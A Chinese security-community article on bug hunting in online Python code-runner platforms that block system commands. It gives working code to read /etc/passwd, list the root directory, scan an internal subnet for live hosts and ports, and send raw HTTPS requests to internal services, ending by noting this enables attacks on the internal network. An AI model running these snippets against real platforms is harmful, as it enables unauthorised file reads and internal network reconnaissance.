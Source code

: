 

# 漏洞挖掘过程中特殊情况下 python 基础库的使用 - 先知社区

漏洞挖掘过程中特殊情况下 python 基础库的使用

- - -

## 前言

在一些可以在线运行代码的平台上，可能因为权限的问题对高危操作存在较大的限制。这时候可以选择一些不同的思路去实现一些特殊的操作。

## 文件读取

在一次漏洞挖掘的过程中，平台是可以直接运行基础的 python 代码的，自带一些系统库，但是直接调用系统命令是不被允许的。不能执行系统命令，那么就可以考虑去寻找一些其他的漏洞。这个时候我突然想到是不是可以利用文件操作，去进行文件读取呢？那这个时候我就写了一段简单的 python 代码进行测试

```plain
file = open('/etc/passwd', 'r')
try:
  text = file.read() 
  print(text)
finally:
  file.close()
```

就这样还真读取到了，那么想要读取其他文件，就必须要知道目录  
[![](assets/1709105754-bedfcbb88e54d355b3bac2259837bf5e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227154947-c77d367a-d544-1.png)  
配合这段代码，就可以进行目录的列出了。

```plain
import os

def file_name_listdir(file_dir):
  for files in os.listdir(file_dir): # 不仅仅是文件，当前目录下的文件夹也会被认为遍历到
    print("files", files)
file_name_listdir("/")
```

可以看到这样就可以读取到根目录下的一些内容。  
[![](assets/1709105754-aff90db41db7abbb588ce6252adcae05.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227155111-f9a85846-d544-1.png)  
那么单单进行读取的话还是危害不是很高，很多服务可能都是存在于内网的，无法直接进行访问，但是我们又不能直接访问，怎么办呢，还是系统库。这里可以借助 socket 库

## 内网探测

我们都知道 socket 可以发起网络通信，通过它实际上我们就可以发出各种请求了。比如可以实现端口扫描，但是如果我们想要探测主机存活的话是需要 ICPM 协议的，但是！这里我们实际上可以通过 socket 连接来判断主机存活。如下：

```plain
import socket
import ipaddress
def scan_port(host, port, timeout=1):
    # 创建套接字
    client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client_socket.settimeout(timeout)
    try:
        # 尝试连接到指定主机和端口
        client_socket.connect((host, port))
        print(f"Port {port} is open on {host}")
        return True  # 返回 True 表示连接成功（端口开放）
    except socket.timeout:
        # print(f"Connection to port {port} on {host} timed out")
        return False  # 返回 False 表示连接超时
    except socket.error:
        print(f"Port {port} on {host} is closed")
        return True  # 返回 True 表示连接失败（端口关闭）
    finally:
        # 关闭套接字
        client_socket.close()
def port_scanner(target_network, target_ports, timeout=1):
    # print(f"Scanning ports on network {target_network}")
    # 遍历所有 IP 地址
    for ip in ipaddress.IPv4Network(target_network, strict=False):
        current_ip = str(ip)
        # print(f"Scanning ports on {current_ip}")
        # 遍历所有端口
        for port in target_ports:
            if not scan_port(current_ip, port, timeout):
                break  # 如果连接超时，立即扫描下一个 IP
if __name__ == "__main__":
    # 设置目标网络和端口范围
    target_network = "192.168.0.1/24"  # 替换为实际的目标网络
    target_ports = range(1, 2)  # 替换为实际的端口范围
    # 扫描端口
    port_scanner(target_network, target_ports)
```

可以看到这里实际上是可以看到存活的主机情况的。  
[![](assets/1709105754-fd0a98a110620aa69af551ff8656515c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227155739-e098c948-d545-1.png)  
[![](assets/1709105754-545d25025b742665937cbffa8f2591bc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227155615-aec81568-d545-1.png)  
通过上面的代码其实就可以判断主机和端口的存活，然后通过 socket 就可以构造 http 数据包进行请求

```plain
import socket
import ssl

def send_https_request():
    # 设置服务器地址和端口
    server_address = ('192.168.0.1', 443)  # 请替换为实际的服务器地址和端口
    # 创建套接字
    client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    try:
        # 连接到服务器
        client_socket.connect(server_address)
        # 将套接字包装为 SSL 连接
        ssl_socket = ssl.wrap_socket(client_socket, ssl_version=ssl.PROTOCOL_TLS)
        # 发送 HTTP GET 请求
        request_data = "GET / HTTP/1.1\r\nHost: 192.168.0.1\r\n\r\n"
        ssl_socket.sendall(request_data.encode())
        # 接收响应数据
        response_data = ssl_socket.recv(1024)
        print("Response from server:\n", response_data.decode())
    except Exception as e:
        print(f"Error: {e}")
    finally:
        # 关闭套接字
        client_socket.close()
if __name__ == "__main__":
    send_https_request()
```

这样得到了响应内容  
[![](assets/1709105754-25b9c95e56ad4eea852d6d6a170e2c22.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227155855-0deaeab6-d546-1.png)  
通过上面的组合的话实际上就可以对内网的一些服务发起攻击了。
